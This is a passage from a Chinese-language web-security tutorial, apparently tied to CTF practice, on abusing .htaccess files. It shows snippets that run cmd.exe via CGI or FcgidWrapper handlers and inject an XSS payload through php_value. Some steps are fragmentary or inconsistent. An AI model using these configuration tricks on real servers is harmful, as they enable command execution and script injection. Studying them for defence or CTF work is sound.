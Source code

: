 **条件：allow_url_fopen、allow_url_include 为 On**

```
Option ExecCGI # 允许CGI执行
AddHandler cgi-script .xx  # 将后缀为xx的文件当做CGI程序进行解析
shell.xx：
#!C:/Windows/System32/cmd.exe /k 
start calc.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7d1cJs2NgO1Jby9UsIxrY7dmicgIKZGlMGMAMNFjBuYzA8YTCo16yHYx1BwK1YOqGweaL7YQHnGkKQ/640?wx_fmt=png)

### 2. 解析. htaccess

**方法一：**

```
例题可看
https://github.com/De1ta-team/De1CTF2020/tree/master/writeup/web/check in
```

即让 php 文件包含. htaccess 自己：

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7d1cJs2NgO1Jby9UsIxrY7dXqibD9oiceSibCNQNQGS2FRaXicj9JYfWX8e2AtZeY0v7DweG99f5K6s5Q/640?wx_fmt=png)

**方法二：**

**这种适合同目录或子目录没有 php 文件的情况下。**

需要里先设置允许可访问 .htaccess 文件：

```
LoadModule fcgid_module modules/mod_fcgid.so
```

```
Options +ExecCGI
AddHandler fcgid-script .xx
FcgidWrapper "C:/Windows/System32/cmd.exe /k start calc.exe"
```

然后再设置将 .htaccess 指定当做 php 文件处理

```
php_value highlight.comment '"><script>alert(1);</script>'
```

```
<?php
highlight_file(__FILE__);
// comment
```

最终. htaccess 文件里面的内容为：

```
<?php
include('foo'); # foo报错
```
